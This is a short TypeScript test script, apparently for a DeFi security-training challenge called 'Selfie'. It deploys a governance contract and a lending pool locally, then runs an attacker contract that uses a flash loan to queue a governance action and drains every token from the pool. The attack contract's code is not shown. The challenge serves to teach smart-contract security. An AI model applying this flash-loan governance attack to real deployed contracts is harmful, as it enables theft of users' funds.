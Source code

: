 ```ts
    governance = await ethers.getContractFactory('SimpleGovernance', owner).then(f => f.deploy(token.address));
    pool = await ethers.getContractFactory('SelfiePool', owner).then(f => f.deploy(token.address, governance.address));

    // put tokens in the pool
    await token.transfer(pool.address, TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.be.equal(TOKENS_IN_POOL);
  });

  it('should drain tokens from the pool', async () => {
    const attackerContract = await ethers
      .getContractFactory('SelfieAttacker', attacker)
      .then(f => f.deploy(governance.address, pool.address));

    // pwn by taking a flash loan & queueing your action
    await attackerContract.connect(attacker).pwn();
    const actionId = await attackerContract.connect(attacker).actionId();

    // confirm that aciton is queued
    const action = await governance.connect(attacker).actions(actionId);
    expect(action.receiver).to.eq(pool.address); // just this check is enough

    // wait for 2 days for the action to be executable
    await fastForward({d: 2});

    // execute action
    await governance.connect(attacker).executeAction(actionId);
  });

  after(async () => {
    // attacker has taken all tokens from the pool
    expect(await token.balanceOf(attacker.address)).to.be.equal(TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.be.equal(0);
  });
});
```

